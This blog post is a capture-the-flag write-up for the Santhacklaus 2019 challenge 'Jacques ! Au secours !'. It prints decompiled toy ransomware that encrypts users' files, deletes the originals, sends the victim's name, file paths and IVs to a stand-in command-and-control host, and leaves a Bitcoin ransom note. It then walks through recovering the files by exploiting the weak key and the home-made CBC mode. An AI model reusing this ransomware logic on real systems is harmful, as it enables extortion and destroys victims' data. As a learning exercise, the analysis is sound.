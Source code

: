 ```yaml
---
title: Santhacklaus 2019: Jacques ! Au secours !
slug: santa-jacques
date: 23/12/2019
---
```


**Before we start!** This post is authored by [@pwnh4](https://twitter.com/pwnh4).
I'm really proud to have him for this guest post as he started computer security
only a few months ago with my [2019 Piscine](https://blog.geographer.fr/posts/piscine-poc-2019)
but already performs very well in CTF. Go follow him!

***

*Jacques ! Au secours!* is a cryptography challenge of the Santhacklaus 2019
CTF.

![Intro](/assets/santa/jacques/chall.png)

Let's start by downloading and extracting the provided `.zip` file:

```
➜  chall_files tree
.
├── vacation pictures
│   ├── DCIM-0533.jpg.hacked
│   ├── DCIM-0534.jpg.hacked
│   ├── DCIM-0535.jpg.hacked
│   ├── DCIM-0536.jpg.hacked
│   └── READ_THIS.txt
└── virus.cpython-37.pyc
```

The `.pyc` file is some Python bytecode. It is not human readable so let's
use some [online Python decompiler](https://python-decompiler.com/) to retrive
the actual code source of what looks to be a Python ransomware.

## The Ransomware

```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, os, getpass, requests
TARGET_DIR = 'C:\\Users'
C2_URL = 'https://c2.virus.com/'
TARGETS = ['Scott Farquhar', 'Lei Jun', 'Reid Hoffman', 'Zhou Qunfei', 'Jeff Bezos', 'Shiv Nadar', 'Simon Xie', 'Ma Huateng', 'Ralph Dommermuth', 'Barry Lam', 'Nathan Blecharczyk', 'Judy Faulkner', 'William Ding', 'Scott Cook', 'Gordon Moore', 'Marc Benioff', 'Michael Dell', 'Yusaku Maezawa', 'Yuri Milner', 'Bobby Murphy', 'Larry Page', 'Henry Samueli', 'Jack Ma', 'Jen-Hsun Huang', 'Jay Y. Lee', 'Joseph Tsai', 'Dietmar Hopp', 'Henry Nicholas, III.', 'Dustin Moskovitz', 'Mike Cannon-Brookes', 'Robert Miller', 'Bill Gates', 'Garrett Camp', 'Lin Xiucheng', 'Gil Shwed', 'Sergey Brin', 'Rishi Shah', 'Denise Coates', 'Zhang Fan', 'Michael Moritz', 'Robin Li', 'Andreas von Bechtolsheim', 'Brian Acton', 'Sean Parker', 'John Doerr', 'David Cheriton', 'Brian Chesky', 'Wang Laisheng', 'Jan Koum', 'Jack Sheerack', 'Terry Gou', 'Adam Neumann', 'James Goodnight', 'Larry Ellison', 'Wang Laichun', 'Masayoshi Son', 'Min Kao', 'Hiroshi Mikitani', 'Lee Kun-Hee', 'David Sun', 'Mark Scheinberg', 'Yeung Kin-man', 'John Tu', 'Teddy Sagi', 'Frank Wang', 'Robert Pera', 'Eric Schmidt', 'Wang Xing', 'Evan Spiegel', 'Travis Kalanick', 'Steve Ballmer', 'Mark Zuckerberg', 'Jason Chang', 'Lam Wai Ying', 'Romesh T. Wadhwani', 'Liu Qiangdong', 'Jim Breyer', 'Zhang Zhidong', 'Pierre Omidyar', 'Elon Musk', 'David Filo', 'Joe Gebbia', 'Jiang Bin', 'Pan Zhengmin', 'Douglas Leone', 'Hasso Plattner', 'Paul Allen', 'Meg Whitman', 'Azim Premji', 'Fu Liquan', 'Jeff Rothschild', 'John Sall', 'Kim Jung-Ju', 'David Duffield', 'Gabe Newell', 'Scott Lin', 'Eduardo Saverin', 'Jeffrey Skoll', 'Thomas Siebel', 'Kwon Hyuk-Bin']

def get_username():
    return getpass.getuser().encode()

#
# ....
#

def lock_files():
    username = get_username()
    print(username)
    if username in TARGETS:
        for directory, _, filenames in os.walk(TARGET_DIR):
            for filename in filenames:
                if filename.endswith('.hacked'):
                    continue
                fullpath = os.path.join(directory, filename)
                print('Encrypting', fullpath)
                lock_file(fullpath)

        with open(os.path.join(TARGET_DIR, 'READ_THIS.txt'), 'wb') as (fo):
            fo.write('We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com\n')


if __name__ == '__main__':
    lock_files()

```

The way the ransomware works is pretty simple. It has a list of usernames
defined in `TARGET`. If the victim is one of them, it encrypts his files and
asks for a ransom.

Let's focus on the encryption process:

```python
def xorbytes(a, b):
    assert len(a) == len(b)
    res = ''
    for c, d in zip(a, b):
        res += bytes([c ^ d])

    return res


def lock_file(path):
    # 1
    username = get_username()
    hsh = hashlib.new('md5')
    hsh.update(username)
    key = hsh.digest()
    cip = AES.new(key, 1)

    # 2
    iv = get_random_bytes(16)

    #3
    params = (('target', username), ('path', path), ('iv', iv))
    requests.get(C2_URL, params=params)

    #4
    with open(path, 'rb') as (fi):
        with open(path + '.hacked', 'wb') as (fo):
            block = fi.read(16)
            while 1:
                if block:
                    while 1:
                        if len(block) < 16:
                            block += bytes([0])
                    cipherblock = cip.encrypt(xorbytes(block, iv))
                    iv = cipherblock
                    fo.write(cipherblock)
                    block = fi.read(16)

    os.unlink(path)
```

We can observe multiple interesting things:

1. The key used for encryption is the MD5 hash value of the victim username.
We can also see the declaration of an AES cipher in EBC mode ( `AES.new(key, 1)`)
2. We can see that a variable `IV` is defined. An Initialization vector is used
in AES CBC mode which means that this function is implementing its own AES CBC
encryption. The IV is set to a random 16 bytes value.
3. There is a request to what should be a C&C (useless for our case)
4. The encryption algorithm: for each 16 bytes block of the file to encrypt,
we xor it with the IV and we encrypt the result with the AES ECB cipher defined
in step 1. Then, the result is written in the `.hack` file and the IV is set to
this current encrypted block.

This algorithm is beautifully represented in this Wikipedia schema:

![Wikipedia CBC](/assets/santa/jacques/cbc.png)

## The problem

We can uncipher every block in the `.hack` file except the first one, as it
is the IV that was initialized to a random 16 bytes value.

But luckily we can bypass this! We know that we want to retrieve a JPG files. Thus, we could try to guess the first plaintext block based on the standard header of the JPG format. Let's try with:

```
\xff\xd8\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00
```
An other problem is that we should try all targeted usernames as key. But
let's make some guess and consider that the key is `Jack Sheerack` (because
of the challenge name). We will check the unciphered files generated with
this key first.

Ok, so now that we have solutions for our issues, let's decode the hacked files!

## The script

```python
for target in TARGETS:
    key = hashlib.md5(target.encode()).digest()
    f = sys.argv[1]

    # used to store all 16 bytes block
    blocks = []
    with open(f, "rb") as f:
        while not len(blocks) or len(blocks[-1]):
            blocks.append(f.read(16))
    del blocks[-1]

    cip = AES.new(key, 1)
    with open("/tmp/out-"+target+".jpg", "wb") as fo:
        # write 16 bytes of jpg header
        fo.write(b"\xff\xd8\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00")
        # decode each ith block using the i-1th block as initialization vector
        for i in range(1, len(blocks)):
            fo.write(xorbytes(cip.decrypt(blocks[i]), blocks[i-1]))
```

We try to open the file associated with the `Jack Sheerack` key but it is
invalid. Just like all the other files...

At this time I was quite lost and tried to figure out why my generated JPG
files were invalid.

## Black Magic

After some research, I found the ImageMagick tool, which is great to
help me debug my generated files.

With the `identify` command, you can detect all the corruption sources.

```
➜  identify -regard-warnings -verbose /tmp/out-Jack\ Sheerack.jpg

...
Artifacts:
  filename: /tmp/out-Jack Sheerack.jpg
  verbose: true
Tainted: False
Filesize: 174736B
Number pixels: 990000
Pixels per second: 62.6515MB
User time: 0.010u
Elapsed time: 0:01.015
Version: ImageMagick 6.9.10-67 Q16 x86_64 2019-10-04 https://imagemagick.org
identify: Corrupt JPEG data: 18 extraneous bytes before marker 0xfe `/tmp/out-Jack Sheerack.jpg' @ warning/jpeg.c/JPEGWarningHandler/389.
```

Thats a good thing! Our JPG is corrupted. How is that a good thing? Well now
we know that it is almost valid ! If I try the same thing on a generated file
with the key `Jack Ma`, `identify` simply doesn't work:

```
identify: Unsupported JPEG process: SOF type 0xc3 `/tmp/out-Jack Ma.jpg' @ error/jpeg.c/JPEGErrorHandler/338.
```

At this time I discovered another tool part of the ImageMagick suite:
`mogrify`, which helps correct the corrupted bytes in my generated JPG. I
simply have to indicate the error I want it to correct:

```
➜  mogrify -set comment 'Extraneous bytes removed' /tmp/out-Jack\ Sheerack.jpg

mogrify: Corrupt JPEG data: 18 extraneous bytes before marker 0xfe `/tmp/out-Jack Sheerack.jpg' @ warning/jpeg.c/JPEGWarningHandler/389.
```

I can now open my file and see a wonderful photo of Jacques Chirac!

![Flag](/assets/santa/jacques/flag.jpg)

The picture with the flag was `DCIM-0534.jpg.hacked`.